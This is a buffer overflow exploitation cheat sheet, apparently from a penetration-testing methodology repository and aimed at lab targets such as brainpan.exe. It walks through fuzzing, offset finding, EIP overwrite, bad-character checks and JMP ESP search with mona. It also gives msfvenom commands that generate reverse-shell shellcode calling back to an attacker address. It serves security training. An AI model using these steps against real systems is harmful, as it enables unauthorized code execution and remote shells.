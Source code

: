 ### Buffer Overflows


#### The Process:
- 1 Spiking
- 2 Fuzzing
- 3 Finding the Offset
- 4 Overwriting the EIP
- 5 Finding Bad Characters [ref: https://ostermiller.org/calc/asciism.html]
- 6 Finding the Right Module
- 7 Generating Shellcode
- 8 Root Access

-----

# BOF

- 1 Connect find commands
```bash
nc -nv $IP $PORT
```

- 2 [Spike](/Methodology/3_Exploitation/1_Buffer_Overflows/1_STATS.spike)
check if vulnerable



**1. Check buffer length to trigger overflow** 

**2. Cofirm overflow length, append "A" * length**  

**3. Generate Offset to check EIP, ESP location**  
  /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

	Record value on EIP, select ESP and click "Follow in Dump"  
	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value> -l <length>  

	Use !mona to find the offset after the overflow  
	!mona findmsp  

**4. Confirm EIP by adding "B" * 4 after the number of offset. Also, add a number of "C" to track the number of characters that can be added after EIP to confirm length of shellcode**

**5. Check bad characters after EIP. common bad characters are 0x00, 0x0A. Follow dump in ESP to check are there something missing after that.**
Add code:

	badchar = [0x00]
	for ch in range (0x00 , 0xFF+1):
		if ch not in badchar:
			<payload> += chr(ch)

**6. Find JMP ESP address in the system.**
```
msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
	JMP ESP = FFE4
```
	!mona jmp -r esp -cpb "\x00\x0A" << bad character

	!mona modules
	!mona find -s "\xff\xe4" -m brainpan.exe

	check the value of the address by naviate to it.
	Set breakpoint
	Change "B" in EIP to the address of JMP ESP << little edian (reverse order)
	
	e.g. 0x311712f3 >> "\xf3\x12\x17\x31"

	Run again to check is the breakpoint triggered

**7. Add shellcode**
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.166 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
	Add a few \x90 before shellcode to avoid shellcode being modify

	msfvenom -p windows/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -a x86 -platform windows -b "\x00"
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -b "\x00"

**Bonus: Running out of shell code space?**
Use the front of payload instead
1. Is there any register points to the front of our payload? EAX, EDX?
2. Check JMP register address
	/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

	JMP EAX/EBX/ECX/EDX

3. Append the address as shell code.
4. Add payload to the front


